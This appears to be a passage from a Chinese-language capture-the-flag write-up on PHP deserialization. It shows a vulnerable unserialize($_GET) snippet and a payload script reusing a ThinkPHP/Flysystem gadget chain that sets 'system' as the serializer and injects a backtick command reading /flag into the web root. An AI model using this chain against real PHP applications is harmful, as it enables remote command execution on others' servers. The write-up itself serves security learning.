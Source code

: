 ```php

$dir = "uploads/";

if (!is_dir($dir))
{
    mkdir($dir);
}
unserialize($_GET["data"]);
```

跟之前有一题一模一样, 但 getCacheKey 方法改了一下

参考文章 (才发现是 thinkphp 的链子...)

[https://www.anquanke.com/post/id/194036](https://www.anquanke.com/post/id/194036)

[https://www.zhaoj.in/read-6397.html](https://www.zhaoj.in/read-6397.html)

新学到的两个思路

第一个思路是利用 linux 中反引号的优先级来执行命令

```php
<?php

class A {

    protected $store;
    protected $key;
    protected $expire;

    public function __construct($store, $key = 'flysystem', $expire = null) {
        $this->key = $key;
        $this->store = $store;
        $this->expire = $expire;
    }

}

class B {

}

$b = new B();
$b->options = array(
    'expire' => '123',
    'prefix' => '456',
    'serialize' => 'system'
);

$a = new A($b, '789', null);
$a->autosave = false;
$a->cache = [];
$a->complete = '`cat /flag > /var/www/html/flag.txt`';

echo urlencode(serialize($a));
```
